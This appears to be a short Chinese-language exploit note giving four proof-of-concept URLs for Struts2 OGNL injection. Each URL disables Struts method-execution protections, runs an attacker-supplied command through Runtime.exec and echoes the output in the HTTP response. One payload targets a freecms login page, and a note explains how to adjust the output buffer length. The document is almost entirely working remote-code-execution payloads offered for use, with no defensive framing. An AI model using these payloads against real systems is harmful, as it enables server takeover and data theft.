 关于回显：webStr\75new\40byte[100] 修改为合适的长度。

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter(%22cmd%22))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[100]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd%20/c%20ipconfig 

```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[100],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))%2b'&cmd=cmd%20/c%20ipconfig 

```

POC3:

```
http://127.0.0.1/freecms/login_login.do?user.loginname=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))&z[(user.loginname)('meh')]=true&cmd=cmd%20/c%20set

```

POC4:

```
http://127.0.0.1/Struts2/test.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23a=%40java.lang.Runtime%40getRuntime().exec(%23req.getParameter(%22cmd%22)).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char%5b50000%5d,%23c.read(%23d),%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%23d),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')]&cmd=cmd%20/c%20netstat%20-an 

```
